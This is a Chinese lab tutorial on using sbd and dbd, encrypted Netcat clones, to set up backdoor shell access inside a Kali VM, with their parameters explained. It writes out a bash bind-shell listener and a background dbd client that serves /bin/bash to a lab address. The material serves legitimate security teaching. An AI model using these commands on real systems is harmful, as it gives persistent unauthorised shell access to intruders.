








# 使用 sbd 及 dbd 创建系统安全后门

## 一、实验介绍

### 1.1 实验简介

本实验主要介绍 Sbd 和 Dbd 这两个工具建立系统安全后门的使用，如果对于 Socket 编程有一定了解的同学，可以很容易的掌握本门实验的内容。因为它们用法比较相似，都是服务器端进行监听，并且使用客户端进行连接，从而建立起两者之间的联系，达到数据传输的目的。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

在这个实验中，我们主要学习 Sbd 以及 Dbd 这两个工具的使用，学完本小节实验，能够明白 Sbd 以及 Dbd 这两者的使用即可。在本节实验过程中，主要对 Sbd 和 Dbd 这两者的参数进行讲解。实验过程中的主要知识点如下列表：

- Linux 操作系统基本命令
- Sbd 的参数各代表的含义
- Dbd 的参数所代表的含义
- 验证 Sbd 和 Dbd 服务器和客户端连接成功

### 1.3 实验环境

本次实验课程所使用的环境，为实验楼提供的 Kali Linux 虚拟机环境，宿主机是 Ubuntu 14.04。宿主机上的另一台虚拟机为 Metasploitable2，由于在本次试验中，不会对靶机进行渗透攻击，所以将不会启动 Metasploitable2。如果对目标靶机感兴趣的同学，也可以对 Metasploitbale2 进行一些其他的实验。其中 Metasploitabale2 的账号密码分别为： `msfadmin/msfadmin`。在本次实验中，我们只对 Sbd 以及 Dbd 创建系统安全后门进行讲解。


## 二、环境启动

### 2.1 环境启动

实验楼的宿主机为 Ubuntu，而本次实验中，我们所有的操作都是基于实验楼的宿主机上的 Kali Linux 虚拟机。首先在实验楼环境中，输入如下命令，打开 Kali Linux 终端。**注意：在这步 `ssh root@Kali` 中，可能会出现报错，这是因为打开 Kali 后，需要等待大概`一分钟左右`，服务才会真正开启**：

```
# 在实验楼的终端中，打开 Kali 虚拟机
sudo virsh start Kali

# 使用密码，登录 Kali 虚拟机
ssh root@Kali 
```

如果一切顺利，你将会看到如下页面：


## 三、原理介绍

### 3.1 原理介绍

##### 1. Sbd 是什么？

工具 Sbd 根据官方的描述是一个`Netcat-clone`，也就是 Sbd 是 Netcat 的克隆。其中对于 `Netcat` 的介绍如下引用。

> Netcat 或者叫 nc，是Linux 下的一个用于调试和检查网络工具包。Netcat 可以说是网络工具中的瑞士军刀，它能通过 TCP 和 UDP 在网络中读写数据。通过与其他工具结合和重定向，你可以在脚本中以多种方式使用它。

用一句话来解释 Netcat 就是：Netcat 所做的就是在两台电脑之间，建立链接并返回两个数据流。在本次实验中，我们要了解的 Sbd 就是一个 `Netcat-clone`。

##### 2. Sbd 具备的特点有哪些？

在网络工具中，Sbd 被设计成为一个方便的，强有力的加密工具。它通常使用在 Unix 操作系统和 Win32 位系统中。Sbd 的特征是用 AES-CBC-128 和 HMAC-SHA1 加密。此外要注意的是 Sbd 只支持 TCP/IP 连接。

对 Sbd 感兴趣的同学，也可以到官网下载 Sbd 使用：

> http://mirrors.kernel.org/gentoo/distfiles/sbd-1.37.tar.gz

##### 3. Dbd 是什么?

工具 Dbd 可以理解为加密版的 Netcat（或者叫 nc），与上面说到的 Sbd 很相近，也是 Netcat 的克隆。Dbd 也是被设计为一个强有力的加密的网络工具。其所运行的环境，也是各类 Unix 操作系统，以及微软的 win32 位操作系统。

##### 4. Dbd 具有哪些特征？

与 Sbd 一样，Dbd 也仅仅只支持 TCP/IP 连接。在 Kali 官网工具介绍中，是这样描述的 `dbd supports TCP/IP communication only.`

如果对 Dbd 的源码感兴趣的同学，可以到 GitHub 上进行研究，其中 GitHub 源码地址为：

> https://github.com/gitdurandal/dbd


## 四、使用方法

### 4.1 `sbd` 参数选项

在 Kali 的实验楼环境终端中，输入如下命令查看 `sbd` 参数选项：

```
# 查看 sbd 命令的帮助选项
sbd -h
```



### 4.2 `sbd` 的使用

在了解了如何查看 sbd 的参数选项之后，我们来介绍 `sbd` 的使用，在 Kali 的终端命令中，输入如下代码：

```
# 用来监听即将传入的连接端口
sbd -l -p 4445 -e bash -v -n
```
其中各项参数所代表的含义分别为：

| 参数名称 | 参数所代表的含义                        |
| -------- | --------------------------------------- |
| `-l`     | 用来监听即将传入的连接端口              |
| `-p`     | 连接过程中，监听的具体端口号            |
| `-e`     | 连接成功后，所调用的程序                |
| `-v`     | 输出连接时产生的详细信息                |
| `-n`     | 切换独立的仅数字（numeric-only）IP 地址 |

其中，监听的端口号为 `4445`，接着我们再在实验楼的宿主环境 Ubuntu 14.04 中，开启另一个新的终端，连接 Kali 虚拟机：

```
# 连接 Kali 虚拟机
ssh root@Kali
```


使用 `sbd` 连接所监听的端口，在 Kali 的命令终端中输入如下命令：

```
# 使用简单的命令连接主机，及其相应的端口
sbd 192.168.122.101 4445
```


连接成功后，输入命令，进行验证：

```
# 查看当前的用户是谁
whoami

# 查看当前用户的 Id 
id

# 查看当前路径
pwd

```




### 4.3 `Dbd` 参数选项

介绍完 `Sbd`，我们接着来介绍一下 `Dbd`，`Dbd` 的使用方法，和 `Sbd`很像，在 Kali 的命令行终端中，输入如下命令查看 `dbd` 参数选项：
```
# 查看 dbd 帮助选项
dbd -h
```



### 4.4 `Dbd` 的使用

在查看 `Dbd` 选项含义后，我们在 Kali 终端中输入如下命令，进行监听行为：

```
# 使用命令对端口进行监听
dbd -l -p 8080 -v
```
其中命令参数所代表的含义如下列表：

| 参数名称 | 参数所代表的含义                   |
| -------- | ---------------------------------- |
| `-l`     | 用来监听即将传入的连接端口         |
| `-p`     | 连接过程中，服务器侦听的具体端口号 |
| `-v`     | 输出连接时产生的详细信息           |




接着在另一个 Kali 终端中，输入命令，进行连接交互：

```
# 进行交互
dbd -r 2400 -D on -v -e /bin/bash 192.168.122.101 8080
```



在上面的这条命令中，其中参数所代表的具体含义分别为：

| 参数名称 | 参数所代表的含义                               |
| -------- | ---------------------------------------------- |
| `-r`     | 设置计时的具体秒数，其单位为秒                 |
| `-D on`  | 意思是作为后台进程运行                         |
| `-p`     | 连接过程中，监听的具体端口号                   |
| `-v`     | 对连接产生的信息，详细地输出                   |
| `-e`     | 连接成功后，所调用的程序，这里调用 `/bin/bash` |


在输入这条命令结束后，服务器端和客户端建立起了连接，出现了这条命令，即为成功后的标志：

```
# 连接成功后进行交互
connect to 192.168.122.101:8080 from 192.168.122.101:37066 （kali）
```

接着可以在这条命令下，使用 Linux 的基本操作命令，进行系统信息验证，结果如图所示：

```
# 查看当前用户是谁
whoai

# 查看当前路径
pwd

# 查看当前路径下文件
ls

```




## 五、思考总结

### 5.1 思考总结

在使用 Sbd 以及 Dbd 这两个工具创建安全后门的学习中，我们明白了 Sbd 和 Dbd 是 Netcat 的克隆，它们具有可移植并提供强大的加密的特点。Sbd 和 Dbd 运行在 Unix 类操作系统和微软的 win32 系统中。在本实验中，对于 Sbd 和 Dbd 这两个工具，主要是从这三方面来进行介绍的：

- 这个工具是什么？
- 这个工具有哪些特点？
- 这个工具怎么使用？

这门课的学习过程中，你需要掌握的这两个工具的参数含义，并对服务器端和客户端，两者进行通信的命令，有一个基础的了解。如果学过 Socket 编程的同学，对于这个实验的内容，应该感到很轻松。

下面推荐一些关于 Sbd 和 Dbd 这两个工具的一些阅读材料，希望有兴趣的同学可以阅读：

> 关于 Sbd：http://tools.kali.org/maintaining-access/sbd

关于 Dbd 这个工具的使用方法，和 Sbd 很类似，同学们可以对两者的使用，以及特点进行对比，归纳出两者其中的差异以及优点：

> 关于 Dbd：http://tools.kali.org/maintaining-access/dbd

## 六、课后作业

### 6.1 课后作业

使用 Sbd 及 Dbd 创建系统安全后门的课程，了解 Sbd 和 Dbd 两者的参数含义以及使用流程。在学习了本实验后，对于工具中的参数，希望同学们能够亲自动手实验，思考工具中，各个参数所代表的详细含义。

- 维持后门访问过程中，除了 Sbd 和 Dbd 这个工具还有其他哪些工具？
- 实验中演示的是一对一，这两个工具能否实现一对多通信？

对于不懂的地方，可以在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。